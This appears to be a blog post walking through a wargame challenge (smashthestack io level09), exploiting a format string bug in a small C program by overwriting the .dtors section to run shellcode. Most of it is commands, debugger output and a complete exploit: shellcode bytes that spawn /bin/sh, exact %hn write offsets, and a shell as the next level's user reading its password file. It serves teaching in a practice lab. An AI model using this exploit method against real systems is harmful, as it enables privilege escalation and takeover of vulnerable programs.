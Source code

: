 ```yaml
---
author: alvaro
comments: true
layout: post
title: Format Strings - Level09 smashTheStack
categories:
- Archive
tags:
- security
---
```


The topic for this entry is about format string vulnerability. The vulnerability appears when we use functions as `printf` and so on wrongly.

```C
printf("%s", buf);  //Good
printf(buf); // wrong - What would happen if buf is "%x%x%x"?
```

When we call the latest printf call we are going to read from the stack. The layout would be the following

```
     Top of the Stack
-------------------------
|       Address of buf  |
-------------------------
|       Value of %x     |
-------------------------
|       Value of %x     |
-------------------------
|       Value of %x     |
-------------------------
|        ....           |
-------------------------
  Bottom of the Stack

```

The fun of this is that you can read, write on whatever direction you want. I am not going to write about how to do it since other have written before about [this](http://inst.eecs.berkeley.edu/~cs161/sp08/Notes/formatstring-1.2.pdf).

The code to exploit is the level09 from [io.smashthestack.org](http://io.smashthestack.org).


```C
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	int  pad = 0xbabe;
	char buf[1024];
	strncpy(buf, argv[1], sizeof(buf) - 1);

	printf(buf);

	return 0;
}
```

```
level9@io:/levels$ ./level09 AAAA%x%x%x%x
AAAAbffffe343ff160d7c41414141
level9@io:/levels$ ./level09 AAAA4%4\$x
AAAA441414141
```

The idea is instead of `AAAA` that does nothing, write an interesting direction using `%n` to alter the normal execution of our program. There are different paths to follow to exploit this little code but I am going to use `.dtors` section. For those that don't know about `.dtors` is a section that all binaries on linux compiled with `gcc` have it. This section has an array of functions that will be called when main function exits.

```
level9@io:/levels$ nm level09
....
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
080484c4 r __FRAME_END__
....

level9@io:/levels$ objdump -h level09

level09:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
...

 13 .rodata       00000008  080484bc  080484bc  000004bc  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 14 .eh_frame     00000004  080484c4  080484c4  000004c4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 15 .ctors        00000008  080494c8  080494c8  000004c8  2**2
                  CONTENTS, ALLOC, LOAD, DATA
 16 .dtors        00000008  080494d0  080494d0  000004d0  2**2
                  CONTENTS, ALLOC, LOAD, DATA
....
 ```

 We can see that the section .dtors starts in `0x080494d0`.

 ```
 level9@io:/levels$ objdump -s -j .dtors level09

level09:     file format elf32-i386

Contents of section .dtors:
 80494d0 ffffffff 00000000                    ........
 ```

How we have said before the `.dtors` section is an array of functions. This array always starts with `0xffffffff` and ends with the NULL address `0x00000000`. It's easy to deduce that level09 does not have any destructor. But that is not a reason to give up since this section is writable we are going to be able to write our own destructor :).

The idea is write in `.dtors` with the goal of redirect the flow of the execution to the code that we will write in argv[1]. The first task that we must accomplish is to know the address of argv[1].

```bash
level9@io:/levels$ for ((i = 250; i < 330; i++)); do echo -n "$i: " && ./level09 "%$i\$s" && echo -n $'\n' ; done

294: �É�
295: ,�
296: Segmentation fault
297: 1�^����PTRh
298: (null)
299: ������������U���=Е
300: U���(
301: Segmentation fault
302: 8���B���
303: U��WVS�O
304: U��]Ít&
305: U��WV1�S辊
306:���
307:
308: Segmentation fault
309: ./level09
310: %310$s
311: (null)
312: TERM=xterm-256color
313: SHELL=/bin/bash
314: SSH_CLIENT=88.22.21.50 50860 22
315: OLDPWD=/tmp
316: SSH_TTY=/dev/pts/5
317: USER=level9
318: MAIL=/var/mail/level9
319: PATH=/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
320: PWD=/levels
321: LANG=en_GB.UTF-8
322: SHLVL=1
323: HOME=/home/level9
324: LANGUAGE=en_GB:en
325: LOGNAME=level9
326: SSH_CONNECTION=88.22.21.50 50860 10.16.0.102 22
327: LC_CTYPE=es_ES.UTF-8
328: _=./level09
329: (null)

level9@io:/levels$ ./level09 %310\$x
bffffe42
```

Basically we have walked through the stack to read everything from it to extract where resides argv[1]. Using direct parameter access we know that argv[1] is in 310th position and around `0xbffffe42`.
The latest direction will vary regarding how many data we write. As much data we write in argv[1] the lower the address will be.

Using the short write we are able to write two bytes so we are going to need two directions to write in it followed by the payload.

```
\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

`\xd6\x94\x04\x08` is to write `bfff` and in `\xd4\x94\x04\x08` to write the lower bytes of argv[1]'s address. We should know how much characters we need before to use `%n` to write the desire number. The payload has a length of `0x38`.

```
level9@io:/levels$ gdb -q
(gdb) p 0xbfff - 0x38
$1 = 49095
(gdb) p 0xfe42 - 0xbfff
$2 = 15939
```

We are going to need 49095 more characters before to use `%n` to write `0xbfff` in `0x080494d6` and about 15939 to write `fe42` in `0x080494d4` although that will not be the exact value we will need to write. All this can be accomplished using the width specifier.

```
./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hn

```

This would be the first part of our payload. The problem is that we don't know where argv[1] is in the memory since the array has grown. But we can deduce it using format string.

```
./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hx%15939x%310\$hx

.....
3fffdf6
```

It's means that in `0xbffffdf6` is our argv[1].

```
level9@io:/levels$ gdb -q
(gdb) p 0xfdf6 - 0xbfff
$1 = 15863
```

The problem is that if we write `fdf6` the flow of the program will go at the beginning of argv[1] but the initial part are the directions of `.dtors`. The direction to write would be around `0xbffffdfa` where our payload really starts and it begins with a nop slide to augment our likelihood of success.

```
(gdb) p 0xfdfa - 0xbfff
$1 = 15867
```

And there it is, we have everything to exploit the vulnerability.

```


./level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")%49095x%4\$hn%15867x%5\$hn

sh-4.2$ whoami
level10
sh-4.2$ cat /home/level10/.pass
Os**********
```


{% include twitter_plug.html %}
